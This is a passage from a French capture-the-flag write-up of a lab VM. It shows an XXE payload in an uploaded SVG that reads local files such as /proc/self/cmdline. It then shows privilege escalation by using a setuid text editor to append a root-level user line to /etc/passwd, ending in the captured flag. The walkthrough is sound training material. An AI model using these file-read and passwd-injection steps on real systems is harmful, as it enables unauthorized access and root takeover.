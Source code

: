 Ça explique pourquoi j'ai vu mentionné `perl` lors de l'exfiltration de certains fichiers. Par exemple avec `/proc/self/cmdline` j'obtenais :

```
file:///proc/self/cmdline:1: parser error : Char 0x0 out of allowed range
perl
    ^
image.svg:1: parser error : Failure to process entity xxe
o[<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///proc/self/cmdline">]><foo>&xxe;
                                                                                ^
image.svg:1: parser error : Entity 'xxe' not defined
o[<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "file:///proc/self/cmdline">]><foo>&xxe;
                                                                                ^
Upload OK
```

Donc le serveur récupérait le fichier SVG sous un nom hardcodé et lançait le script perl dessus, ce dernier étant vulnérable à une faille XXE.

Pour l'escalade de privilèges je trouve un binaire nommé `micro` :

```console
minuv2:/$ find / -type f -perm -u+s  2> /dev/null 
/usr/bin/micro
/bin/bbsuid
```

La VM tourne sous _Alpine Linux_ et il s'avère que [Micro](https://micro-editor.github.io/) est un éditeur de texte au look très proche de Emacs.

D'ailleurs en faisant un `Ctrl+O` il me permet de spécifier quel fichier je souhaite éditer.

Comme le binaire est setuid root j'ouvre `/etc/passwd` pour rajouter la ligne suivante :

```
devloop:ueqwOCnSGdsuM:0:0::/root:/bin/sh
```

J'utilise ensuite la touche `Echap` pour sortir et je valide l'écriture. Je peux alors passer root :

```console
minuv2:/$ su devloop
Password: 
minuv2:/# cd /root
minuv2:~# ls
flag.txt
minuv2:~# cat flag.txt
        _                   ____  
  /\/\ (_)_ __  /\ /\__   _|___ \ 
 /    \| | '_ \/ / \ \ \ / / __) |
/ /\/\ \ | | | \ \_/ /\ V / / __/ 
\/    \/_|_| |_|\___/  \_/ |_____|

# You got r00t!

 flag{6d696e75326973617765736f6d65}

# I hope you had fun hacking this box, I tried to design this VM to be (a bit) different
# by having newer or not-so-common technologies and a minumal linux install.
#
# Please don't post the content below on Social Networks to let others do the challenge.
#
# As you know by now, the entry point is an XXE vulnerability that can be exploited by
# modifying an image. After that you can enumerate a user and the linux version to know
# that it uses a different file in its home dir.
# To read this you used a suspicious file permission on certain text editor.
# At least that's how it was planned ;)
# Let me know if you got here using another method!
```